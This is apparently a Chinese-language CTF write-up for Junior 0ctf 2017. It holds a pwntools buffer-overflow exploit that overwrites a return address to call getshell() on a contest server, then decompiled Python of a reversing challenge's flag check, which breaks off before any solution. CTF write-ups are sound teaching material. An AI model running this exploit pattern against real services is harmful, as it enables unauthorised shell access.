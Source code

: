 ```yaml
---
title: Wirteup - Junior 0ctf 2017
categories: [CTF]
tags: [CTF, Writeup]
---
```



# Wirteup - Junior 0ctf 2017

##PWN

### seabreeze's stack

栈溢出题目，直接在IDA中可以看到缓冲区相对于栈基址的偏移：`bp-3FCH`，然后可以看到题目中有一`getshell()`函数，其地址为`0x080485CB`。

覆盖原本的函数返回地址为`getshell()`的地址，利用以下脚本获取shell：

``` python
from pwn import *

conn = remote('202.121.178.181', '12321')
print conn.recvline()
conn.sendline('Yes!')
print conn.recvline()
conn.sendline('Yes!!')
print conn.recvline()
conn.sendline('Yes!!!')

shell_addr = 0x080485cb

payload = 'a'*0x3fc + 'bbbb' + p32(shell_addr)

conn.sendline(payload)
conn.interactive()
```

随后可以读flag。

---

## REVERSE

### babyre

利用`uncompyle2`工具可以直接获得pyc文件对应的py代码：

``` python
from hashlib import md5

def md5raw(s):
    return bytearray(md5(s).digest())

def xor(a, b):
    assert len(a) == len(b)
    return bytearray([ i ^ j for i, j in zip(a, b) ])


flag = bytearray(raw_input('Show me your flag: '))
assert len(flag) == 32
for i in range(16):
    flag[:16] = xor(flag[:16], md5raw(flag[16:]))
    flag[:16], flag[16:] = flag[16:], flag[:16]

```